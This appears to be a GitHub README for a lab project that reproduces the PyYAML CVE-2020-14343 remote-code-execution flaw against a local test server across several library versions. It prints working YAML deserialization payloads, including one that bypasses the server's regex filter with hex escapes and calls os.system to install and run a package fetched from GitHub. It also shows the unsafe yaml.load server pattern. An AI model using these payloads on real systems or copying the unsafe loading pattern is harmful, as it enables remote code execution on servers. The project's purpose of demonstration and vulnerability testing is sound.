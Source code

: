 =====================
pyyaml-CVE-2020-14343
=====================
Testing the `CVE-2020-14343`_ vulnerability that affects the `PyYAML`_ library (version<5.4) 
"where it is susceptible to arbitrary code execution when it processes untrusted YAML 
files through the ``full_load`` method or with the ``FullLoader`` loader." [BUG]_

The whole testing setup is contained within the `test_yaml_vuln`_ package which must
be `installed`_ to have access to the `scripts`_ necessary for performing the
different `tests`_.

`:warning:`

  **Disclaimer**

  This repository is for educational and informational purposes 
  only. The author, raul23, assumes no responsibility for the use 
  of this repository, code or any information contained therein. 
  The user is solely responsible for any action he/she takes with 
  this repository, code and information contained in it.

  Do not abuse this material. Be responsible.

.. contents:: **Contents**
   :depth: 4
   :local:
   :backlinks: top

Testing environment
===================
- **Execution platform:** macOS with `conda`_ (environment manager)
- **Python prerequisites:**

  - ``Python`` >=3.7
  - `pyyaml`_: multiple versions of PyYAML were tested
  
    - ``pyyaml`` 3.13 (Jul 5, 2018) - vulnerable
    - ``pyyaml`` 5.1 (Mar 13, 2019) - vulnerable
    - ``pyyaml`` 5.3 (Jan 6, 2020) - vulnerable
    - ``pyyaml`` 5.4 (Jan 19, 2021) - not vulnerable
    
    `:information_source:`

      * The `CVE-2020-14343`_ vulnerability was fixed in PyYAML version 5.4 [BUG]_
      * The provided `server.py`_ script uses 
        `conda`_ to create a virtual environment for each ``pyyaml`` version
      
  - `Flask`_ (OPTIONAL): for building a simple server that will read a payload sent 
    as a ``yaml`` file containing the risky *YAML* syntax. If you don't have ``Flask``, 
    then a simple web server implemented with built-in Python modules will be used.
    
    `:star:`
     
      The version choosen for ``Flask`` is not that important. Just get the
      latest version (v1.1.2) or if you already had installed it, the version you 
      have should be good enough for the tests. What is important is the version of 
      ``pyyaml``

Install the scripts
===================
Install the `scripts`_ necessary for performing the `tests`_:

.. code-block:: bash

   pip install git+https://github.com/raul23/pyyaml-CVE-2020-14343#egg=pyyaml-CVE-2020-14343

Uninstall the scripts
=====================
First remove all conda environments created for the `tests`_ (if that was the case):

.. code-block:: bash

   server -r

.. activated conda env not part of the envs to be removed

Uninstall the `scripts`_:

.. code-block:: bash

   pip uninstall pyyaml-CVE-2020-14343

Code
====
The code used by the `tests`_ consists in a simple Python `web server`_, a 
`client script`_ for sending payloads (``yaml`` files) and `utils.py`_ (common
code used by both scripts), all within the `test_yaml_vuln`_ package:

- `test_yaml_vuln`_

  - **Python scripts:**

    * `server.py`_
    * `client.py`_
    
  - **Payloads:**

    * `payload01.yaml`_
    * `payload02.yaml`_
    * `payload03.yaml`_
.. * `payload04.yaml`_
    
  - `utils.py`_

``server.py``
-------------
Description
"""""""""""
The `server.py`_ script implements two simple web servers:

1. Built-in web server: a web server implemented with built-in Python modules. 
   It is used if the user doesn't have the `flask`_ module installed. 
   
   * ``BaseHTTPServer`` for the web server
   * ``cgi`` for getting POST form data (i.e. content of ``yaml`` files)
2. `Flask`_ web server

.. _input-validation-regex:

Both servers apply input validation to the content of ``yaml`` files. This
validation procedure consists of a basic regex ``^[\n --/-\]a-}]*$`` that checks the 
input (``yaml`` payload) sent by the client. The payload is rejected by the
server if its content has any of the following special characters:
  
  - ``.`` (Full stop; period)
  - ``^`` (Circumflex)
  - ``_`` (Underscore)
  - ````` (Backtick)
  - ``~``	(Tilde)
  
Both servers also only respond to POST requests that contain the content of
``yaml`` files the server might eventually load with ``pyyaml``.

`:information_source:`

  * The built-in web server code is based from Codexpedia [COD]_
  * The Flask server code is based from a note published @ hackmd.io by *harrier-lcc* [HAR]_

.. fixed: ^[\n --\/-\]a-}]*$

Options
"""""""
Get the options for the `server.py`_ script with the ``-h`` flag:

.. code-block:: bash

   server -h
   
.. code-block:: terminal

   usage: server [OPTIONS]

   General options:
     -h, --help                             Show this help message and exit.
     -v, --version                          Show program's version number and exit.

   Create conda environments:
     -c, --create-envs                      Create all conda environments for testing with the CVE-2020-14343 PyYAML
                                            vulnerability. One conda environment for each of the following PyYAML
                                            version: [3.13, 5.1, 5.3, 5.4]
     -f, --install-flask                    Install flask for each created conda environment.

   Remove conda environments:
     -r, --remove-envs                      Delete all conda environments used for testing with the CVE-2020-14343 PyYAML
                                            vulnerability.

   Run web server:
     --host HOST                            Host and port for the server to run, e.g. 0.0.0.0:8080 (default:
                                            0.0.0.0:8080)
     -y, --yaml-version {3.13,5.1,5.3,5.4}  Use a particular PyYAML version for the server to run.

.. _server-options-info:

`:information_source:`

  * ``-c, --create-envs``: creates conda environments with the ``pyyaml`` versions 
    mentionned in `Testing environment`_
  * ``-f, --install-flask``: if enabled, `Flask`_ will be installed on each created conda
    environment. Thus the flask web server will be used instead of the web server implemented
    with built-in modules, as explained in `Description`_
  * ``-r, --remove-envs``: deletes all the conda environments as created with the ``--c`` flag
  * ``-y, --yaml-version``: allows you to run the web server with a specific ``pyyamml`` version
    from the ones supported
  * ``--host``: instead of typing ``0.0.0.0:8080``, you can use ``0:8080`` or ``localhost:8080``

``client.py``
-------------
Description
"""""""""""
The `client.py`_ script sends a payload as a ``yaml`` file to the listening 
`server.py`_. The payload contains risky ``yaml`` syntax that tries to exploit the
`CVE-2020-14343`_ vulnerability that affects PyYAML versions < 5.4 by making the
server execute remote code.

By default, `three payloads`_ are available but you can also customize your `own
payloads`_.

Options
"""""""
Get the options for the ``client.py`` script with the ``-h`` flag:

.. code-block:: bash

   client -h
   
.. code-block:: terminal

   usage: client [OPTIONS]

   General options:
     -h, --help                         Show this help message and exit.
     -v, --version                      Show program's version number and exit.

   Send payload:
     --host HOST                        Host and port of the server to connect, e.g. 0.0.0.0:8080 (default: 0.0.0.0:8080)
     --dp, --default-payload {1,2,3}    ID of the default payload to send to the server. Check the corresponding yaml
                                        file of the payload ID: ['payload01.yaml', 'payload02.yaml', 'payload03.yaml']
     --cp, --custom-payload FILE        Custom payload (yaml file) to send to the server.

`:information_source:`

  * ``--dp, --default-payload``: the given ID is associated to one of the default payloads 
    mentionned in `Default payloads`_
  * ``--cp, --custom-payload``: takes the path to your `custom`_ ``yaml`` file that you will be
    sent to the listening server

`:warning:`
  
  The ``--dp`` and ``--cp`` arguments are both mutually exclusive, i.e. you can only send
  one type of payload (default or custom) to the server at a time

Payloads
""""""""
Payloads are sent to the listening `server.py`_ as ``yaml`` files. Two types of payloads 
can be sent to the listening `server.py`_:

* `default payloads`_
* `custom payloads`_

Default payloads
````````````````
A default payload is sent to the server as a ``yaml`` file with the ``--dp`` option:

.. code-block:: bash

   client --dp 1

.. $ curl -F file=@payload{NUMBER}.txt http://0.0.0.0:8080
   
The payload sent to the server by ``client.py`` can be any of the following default 
``yaml`` files:

.. _first-payload:

- ``--dp 1``: `payload01.yaml`_

  .. code-block:: yaml
  
     !!python/object/new:tuple 
     - !!python/object/new:map 
       - !!python/name:eval
       - [ print('RCE EXPLOIT!') ]
       
  **NOTE:** This payload prints only a message on vulnerable ``pyyaml`` versions

.. _second-payload:

- ``--dp 2``: `payload02.yaml`_

  .. code-block:: yaml
  
     !!python/object/new:tuple 
     - !!python/object/new:map 
       - !!python/name:eval
       - [ print('invalid_message') ]
  
  **NOTE:** This payload prints a message containing an underscore (``_``) which should be
  `detected`_ by the server as an invalid character

.. _third-payload:

- ``--dp 3``: `payload03.yaml`_

  .. code-block:: yaml
  
     !!python/object/new:tuple
     - !!python/object/new:map
       - !!python/name:eval
       - [ "\x5f\x5fimport\x5f\x5f('os')\x2esystem('pip install -q git+https://github\x2ecom/raul23/Maximum#egg=Maximum')" ,
           "\x5f\x5fimport\x5f\x5f('os')\x2esystem('runmax')" ]
       
  **NOTES:**
  
  * To bypass the simple `input validation`_ performed by the web server before loading
    the ``yaml`` payload, the following substitutions are used by the client:
  
    * ``\x5f`` is for the underscore ``_``
    * ``\x2e`` is for the period ``.``
  
  * The strings passed to ``eval`` use ``os.system`` to run commands on the `server`_ on 
    behalf of the `client`_:
  
    * The first command installs quietly the `maximum`_ Python package from *github.com* 
      using the ``-q`` flag from the ``pip`` command
    * The second command executes ``maximum``\'s `runmax.py`_ script
      which only outputs "Hello!" (for testing purposes)

.. _fourth-payload:

.. 
   - ``--dp 4``: `payload04.yaml`_

     .. code-block:: yaml

        !!python/object/new:tuple 
        - !!python/object/new:map 
          - !!python/name:eval
          - [ print('TODO') ]

     **NOTE:** TODO

`:information_source:`

  The payloads are based from a note published @ hackmd.io by *harrier-lcc* [HAR]_

Custom payloads
```````````````
You can also specify your own payload with the ``--cp`` option:

.. code-block:: bash

   client --cp my_payload.yaml
   
where **my_payload.yaml** contains the following:

.. code-block:: yaml

   !!python/object/new:tuple 
   - !!python/object/new:map 
     - !!python/name:eval
     - [ print('my payload') ]

How to use the scripts
----------------------
Create all conda environments
"""""""""""""""""""""""""""""
Create all four conda environments with each having a different PyYAML version,
`pyyaml-CVE-2020-14343` (this project) and `Flask`_ installed:

.. code-block:: bash

   server -cf
   
.. code-block:: terminal

   Creating conda environment 'yaml313' ...
   Created!
   Installing pyyaml-CVE-2020-14343 ...
   Installed!
   Installing pyyaml 3.13 ...
   Installed!
   Installing flask ...
   Installed!

   Creating conda environment 'yaml51' ...
   Created!
   Installing pyyaml-CVE-2020-14343 ...
   Installed!
   Installing pyyaml 5.1 ...
   Installed!
   Installing flask ...
   Installed!

   Creating conda environment 'yaml53' ...
   Created!
   Installing pyyaml-CVE-2020-14343 ...
   Installed!
   Installing pyyaml 5.3 ...
   Installed!
   Installing flask ...
   Installed!

   Creating conda environment 'yaml54' ...
   Created!
   Installing pyyaml-CVE-2020-14343 ...
   Installed!
   Installing pyyaml 5.4 ...
   Installed!
   Installing flask ...
   Installed!

where the following conda environments are created with the corresponding PyYAML 
version:

* ``yaml313``: conda environment with PyYAML 3.13 (build: py37h1de35cc_0)
* ``yaml51``: conda environment with PyYAML 5.1 (build: py37h1de35cc_0)
* ``yaml53``: conda environment with PyYAML 5.3 (build: py37h1de35cc_0)
* ``yaml54``: conda environment with PyYAML 5.4 (build: py37h9ed2024_1)

`:information_source:`

  * ``pyyaml-CVE-2020-14343`` (this project) is also installed on each conda
    environment since we will run `server.py`_ on different conda environments
    with their associated PyYAML version installed
  * The `-c`_ flag is for creating the different conda environments
  * The `-f`_ flag is for installing `Flask`_ on each conda environment

Run the web server
""""""""""""""""""
Run the server in a terminal using a specific PyYAML version:

.. code-block:: bash

   server -y 3.13

**Output:**
  
.. code-block:: terminal

   * Conda env: yaml313
   * PyYAML version: 3.13
   * Serving Flask app "test_yaml_vuln.server" (lazy loading)
   * Environment: production
     WARNING: This is a development server. Do not use it in a production deployment.
     Use a production WSGI server instead.
   * Debug mode: off
   * Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)
  
`:information_source:`

  * The server will use the 3.13 PyYAML version which is affected by `CVE-2020-14343`_
  * If the server is run without the ``-y`` flag, then the PyYAML library from the 
    Python environment executing the script will be used

Send the payload
""""""""""""""""
You can send a default payload (``yaml`` file) to the `listening server`_ with the 
``--dp`` option:

.. code-block:: bash

   client --dp 1
   
`:information_source:`

  The first payload (`payload01.yaml`_) is sent to the server.

.. $ curl -F file=@payload01.txt http://0.0.0.0:8080

The web server will output among other things:

.. code-block:: terminal

   Loading yaml file...
   RCE EXPLOIT!

Tests
=====
The following tests consist in running a `simple
web server`_ that will read a payload sent as a ``yaml`` file 
by the `client script`_. Also, each test is
associated to a specific version of ``pyyaml``.

`:star:`

  Setup the following tests by creating first the conda environments associated
  with each test by running the `server.py`_ script with the ``-cf`` flags:
  
  .. code-block:: bash
  
     server -cf
     
  See also `Create all conda environments`_.

Test 1: ``pyyaml`` 3.13
-----------------------
Run the server with the following command:

.. code-block:: bash

   server -y 3.13
   
.. code-block:: terminal

   * Conda env: yaml313
   * PyYAML version: 3.13
   * Serving Flask app "test_yaml_vuln.server" (lazy loading)
   * Environment: production
     WARNING: This is a development server. Do not use it in a production deployment.
     Use a production WSGI server instead.
   * Debug mode: off
   * Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)

`:information_source:`

  The server is running within the ``yaml313`` conda environment which has ``pyyaml`` 
  version 3.13 installed

Send the first default payload
""""""""""""""""""""""""""""""
Send the `first default payload`_ to the vulnerable server with the following command:

.. code-block:: bash

  client --dp 1

Once the server receives the payload, it outputs the following:

.. code-block:: terminal

   Loading yaml file...
   RCE EXPLOIT!
|

`:information_source:`

  The server with PyYAML version 3.13 is vulnerable to maliciously constructed ``yaml`` files
  and the installed PyYAML doesn't even warn the users that the default loader is unsafe 
  like other more recent versions do (e.g. PyYAML version 5.1 like in the `next test`_)

Send the second default payload
"""""""""""""""""""""""""""""""
Send the `second default payload`_ to the server with the following command:

.. code-block:: bash

  client --dp 2

.. _exp-1-second-payload-info:

The server doesn't load the payload with ``yaml.load()`` because its `input validation 
regex`_ detects an invalid character (``_``) in the file content and consequently, the
server rejects the ``yaml`` file as invalid. The server returns the following to the
client:

.. code-block:: terminal

   Nice try!
   
Send the third default payload
""""""""""""""""""""""""""""""
Send the `third default payload`_ to the server with the following command:

.. code-block:: bash

  client --dp 3

The server outputs the following:

.. code-block:: termninal
  
  Loading yaml file...
  Hello!

.. _exp-1-third-payload-info:

`:information_source:`

  The server with PyYAML version 3.13 installed the `maximum`_ Python package
  and ran its `runmax.py`_ script which only outputs "Hello!" (for testing
  purposes) as instructed in the maliciously constructed `third default payload`_.

Test 2: ``pyyaml`` 5.1
----------------------
Run the server with the following command:

.. code-block:: bash

   server -y 5.1
   
.. code-block:: terminal

   * Conda env: yaml51
   * PyYAML version: 5.1
   * Serving Flask app "test_yaml_vuln.server" (lazy loading)
   * Environment: production
     WARNING: This is a development server. Do not use it in a production deployment.
     Use a production WSGI server instead.
   * Debug mode: off
   * Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)

`:information_source:`

  The server is running within the ``yaml51`` conda environment which has ``pyyaml`` 
  version 5.1 installed

Send the first default payload
""""""""""""""""""""""""""""""
Send the `first default payload`_ to the vulnerable server with the following command:

.. code-block:: bash

  client --dp 1

Once the server receives the payload, it outputs the following:

.. code-block:: terminal

   Loading yaml file...
   server.py:45: YAMLLoadWarning: calling yaml.load() without Loader=... is deprecated, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details.
     yaml.load(file_content)
   RCE EXPLOIT!

|

`:information_source:`

  The server with PyYAML version 5.1 is vulnerable to maliciously constructed ``yaml`` files.
  However, the installed PyYAML at least warns the users that the default loader is unsafe 
  unlike older versions (e.g. PyYAML version 3.13 like in the `previous test`_)

Send the second default payload
"""""""""""""""""""""""""""""""
Send the `second default payload`_ to the server with the following command:

.. code-block:: bash

  client --dp 2

The server returns the following to the client:

.. code-block:: terminal

   Nice try!
   
`:information_source:`

  Same explanation as in `Test 1\: pyyaml 3.13`_.

Send the third default payload
""""""""""""""""""""""""""""""
Send the `third default payload`_ to the server with the following command:

.. code-block:: bash

  client --dp 3

The server outputs the following:

.. code-block:: termninal
  
  Loading yaml file...
  Hello!

`:information_source:`

  Same explanation as in `Test 1\: pyyaml 3.13 <#exp-1-third-payload-info>`__.

Test 3: ``pyyaml`` 5.3
----------------------
Run the server with the following command:

.. code-block:: bash

   server -y 5.3
   
.. code-block:: terminal

   * Conda env: yaml53
   * PyYAML version: 5.3
   * Serving Flask app "test_yaml_vuln.server" (lazy loading)
   * Environment: production
     WARNING: This is a development server. Do not use it in a production deployment.
     Use a production WSGI server instead.
   * Debug mode: off
   * Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)

`:information_source:`

  The server is running within the ``yaml53`` conda environment which has ``pyyaml`` 
  version 5.3 installed

Send the first default payload
""""""""""""""""""""""""""""""
Send the `first default payload`_ to the vulnerable server with the following command:

.. code-block:: bash

  client --dp 1

Once the server receives the payload, it outputs the following:

.. code-block:: terminal

   Loading yaml file...
   server.py:45: YAMLLoadWarning: calling yaml.load() without Loader=... is deprecated, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details.
     yaml.load(file_content)
   RCE EXPLOIT!

|

`:information_source:`

  The server with PyYAML version 5.3 is vulnerable to maliciously constructed ``yaml`` files.
  However, the installed PyYAML at least warns the users that the default loader is unsafe 
  unlike older versions (e.g. PyYAML version 3.13 like in a `previous test`_)

Send the second default payload
"""""""""""""""""""""""""""""""
Send the `second default payload`_ to the server with the following command:

.. code-block:: bash

  client --dp 2

The server returns the following to the client:

.. code-block:: terminal

   Nice try!
   
`:information_source:`

  Same explanation as in `Test 1\: pyyaml 3.13`_.

Send the third default payload
""""""""""""""""""""""""""""""
Send the `third default payload`_ to the server with the following command:

.. code-block:: bash

  client --dp 3

The server outputs the following:

.. code-block:: termninal
  
  Loading yaml file...
  Hello!

`:information_source:`

  Same explanation as in `Test 1\: pyyaml 3.13 <#exp-1-third-payload-info>`__.

Test 4: ``pyyaml`` 5.4
----------------------
Run the server with the following command:

.. code-block:: bash

   server -y 5.4
   
.. code-block:: terminal

   * Conda env: yaml54
   * PyYAML version: 5.4
   * Serving Flask app "test_yaml_vuln.server" (lazy loading)
   * Environment: production
     WARNING: This is a development server. Do not use it in a production deployment.
     Use a production WSGI server instead.
   * Debug mode: off
   * Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)

`:information_source:`

  The server is running within the ``yaml54`` conda environment which has ``pyyaml`` 
  version 5.4 installed

Send the first default payload
""""""""""""""""""""""""""""""
Send the `first default payload`_ to the listening server with the following command:

.. code-block:: bash

  client --dp 1

Once the server receives the payload, it outputs the following:

.. code-block:: terminal

   Loading yaml file...
   server.py:45: YAMLLoadWarning: calling yaml.load() without Loader=... is deprecated, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details.
     yaml.load(file_content)
   [2021-07-09 19:35:44,681] ERROR in app: Exception on / [POST]
   Traceback (most recent call last):
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 2447, in wsgi_app
       response = self.full_dispatch_request()
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 1952, in full_dispatch_request
       rv = self.handle_user_exception(e)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 1821, in handle_user_exception
       reraise(exc_type, exc_value, tb)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/_compat.py", line 39, in reraise
       raise value
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 1950, in full_dispatch_request
       rv = self.dispatch_request()
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 1936, in dispatch_request
       return self.view_functions[rule.endpoint](**req.view_args)
     File "server.py", line 42, in pwnme
       yaml.load(file_content)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/__init__.py", line 114, in load
       return loader.get_single_data()
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/constructor.py", line 51, in get_single_data
       return self.construct_document(node)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/constructor.py", line 55, in construct_document
       data = self.construct_object(node)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/constructor.py", line 100, in construct_object
       data = constructor(self, node)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/constructor.py", line 429, in construct_undefined
       node.start_mark)
   yaml.constructor.ConstructorError: could not determine a constructor for the tag 'tag:yaml.org,2002:python/object/new:tuple'
     in "<byte string>", line 1, column 1:
       !!python/object/new:tuple 
       ^
   127.0.0.1 - - [09/Jul/2021 19:35:44] "POST / HTTP/1.1" 500 -

|

The client receives the following HTML content:

.. code-block:: terminal

   <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
   <title>500 Internal Server Error</title>
   <h1>Internal Server Error</h1>
   <p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

`:information_source:`

  * The installed PyYAML (version 5.4) warns the users that the default loader is unsafe
  * As expected (since the vulnerability was fixed in PyYAML version 5.4), the server 
    is not vulnerable to maliciously constructed ``yaml`` files
    and hence it is not able to load the faulty ``yaml`` file

Send the second default payload
"""""""""""""""""""""""""""""""
Send the `second default payload`_ to the server with the following command:

.. code-block:: bash

  client --dp 2

The server returns the following to the client:

.. code-block:: terminal

   Nice try!
   
`:information_source:`

  Same explanation as in `Test 1\: pyyaml 3.13`_.

Send the third default payload
""""""""""""""""""""""""""""""
Send the `third default payload`_ to the server with the following command:

.. code-block:: bash

  client --dp 3

The server outputs the following:

.. code-block:: termninal
  
   Loading yaml file...
   [2021-07-12 00:06:31,386] ERROR in app: Exception on / [POST]
   Traceback (most recent call last):
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 2447, in wsgi_app
       response = self.full_dispatch_request()
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 1952, in full_dispatch_request
       rv = self.handle_user_exception(e)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 1821, in handle_user_exception
       reraise(exc_type, exc_value, tb)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/_compat.py", line 39, in reraise
       raise value
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 1950, in full_dispatch_request
       rv = self.dispatch_request()
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/flask/app.py", line 1936, in dispatch_request
       return self.view_functions[rule.endpoint](**req.view_args)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/test_yaml_vuln/server.py", line 45, in pwnme
       yaml.load(file_content)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/__init__.py", line 114, in load
       return loader.get_single_data()
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/constructor.py", line 51, in get_single_data
       return self.construct_document(node)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/constructor.py", line 55, in construct_document
       data = self.construct_object(node)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/constructor.py", line 100, in construct_object
       data = constructor(self, node)
     File "/Users/test/miniconda3/envs/yaml54/lib/python3.7/site-packages/yaml/constructor.py", line 429, in construct_undefined
       node.start_mark)
   yaml.constructor.ConstructorError: could not determine a constructor for the tag 'tag:yaml.org,2002:python/object/new:tuple'
     in "<byte string>", line 1, column 1:
       !!python/object/new:tuple
       ^
   127.0.0.1 - - [12/Jul/2021 00:06:31] "POST / HTTP/1.1" 500 -

`:information_source:`

  * The installed PyYAML (version 5.4) warns the users that the default loader is unsafe
  * As expected (since the vulnerability was fixed in PyYAML version 5.4), the server 
    is not vulnerable to maliciously constructed ``yaml`` files
    and hence it is not able to load the faulty ``yaml`` file. The two commands found in
    the faulty ``yaml`` file (i.e. install a Python package and run its script) are not 
    executed.

.. 
 Part II: More tests
 ===================
 The following tests consist in testing only ``pyyaml`` version 5.3 which 
 is affected by `CVE-2020-14343`_. The code used for each of the following tests
 is different unlike the tests in Part I which all share a common code (server and
 payloads).

References
==========
.. [BUG] “Bug 1860466 – (CVE-2020-14343) CVE-2020-14343 PyYAML: Incomplete Fix for CVE-2020-1747.” 
   *Redhat.Com*, https://bugzilla.redhat.com/show_bug.cgi?id=1860466. Accessed 30 June 2021.

.. [COD] “Python Web Server for GET and POST Requests.” *Codexpedia.Com*, 
    https://www.codexpedia.com/python/python-web-server-for-get-and-post-requests/. 
    Accessed 11 July 2021.

.. [HAR] “Uiuctf 2020 - HackMD.” *Hackmd.Io*, https://hackmd.io/@harrier/uiuctf20. 
   Accessed 30 June 2021.

.. URLs external links
.. _conda: https://docs.conda.io/projects/conda/en/latest/user-guide/getting-started.html
.. _CVE-2020-14343: https://access.redhat.com/security/cve/cve-2020-14343
.. _flask: https://flask.palletsprojects.com/
.. _maximum: https://github.com/raul23/Maximum
.. _pyyaml: https://pypi.org/project/PyYAML/
.. _runmax.py: https://github.com/raul23/Maximum/blob/main/maximum/runmax.py

.. URLs within project
.. _client.py: ./test_yaml_vuln/client.py
.. _payload01.yaml: ./test_yaml_vuln/payload01.yaml
.. _payload02.yaml: ./test_yaml_vuln/payload02.yaml
.. _payload03.yaml: ./test_yaml_vuln/payload03.yaml
.. _payload04.yaml: ./test_yaml_vuln/payload04.yaml
.. _server.py: ./test_yaml_vuln/server.py
.. _utils.py: ./test_yaml_vuln/utils.py
.. _test_yaml_vuln: ./test_yaml_vuln

.. URLs internal
.. _-c: #server-options-info
.. _-f: #server-options-info
.. _client: #client-py
.. _client script: #client-py
.. _Create all conda environments: #create-all-conda-environments
.. _custom: #custom-payloads
.. _custom payloads: #custom-payloads
.. _Default payloads: #default-payloads
.. _Description: #description
.. _detected: #input-validation-regex
.. _first default payload: #first-payload
.. _three payloads: #default-payloads
.. _input validation: #input-validation-regex
.. _input validation regex: #input-validation-regex
.. _installed: #install-the-scripts
.. _listening server: #run-the-web-server
.. _next test: #test-2-pyyaml-5-1
.. _own payloads: #custom-payloads
.. _payloads: #payloads
.. _previous test: #send-the-first-default-payload
.. _scripts: #code
.. _second default payload: #second-payload
.. _server: #server-py
.. _simple web server: #server-py
.. _Test 1\: pyyaml 3.13: #exp-1-second-payload-info
.. _Testing environment: #testing-environment
.. _tests: #tests
.. _third default payload: #third-payload
.. _web server: #server-py
